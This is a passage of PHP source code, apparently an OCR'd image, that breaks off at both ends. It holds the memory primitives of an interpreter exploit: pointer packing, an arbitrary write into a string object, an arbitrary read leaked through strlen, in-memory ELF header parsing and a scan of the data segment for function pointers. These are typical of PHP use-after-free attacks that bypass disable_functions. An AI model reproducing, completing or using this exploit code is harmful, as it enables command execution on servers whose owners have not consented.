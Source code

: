 ```php
    }

    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
```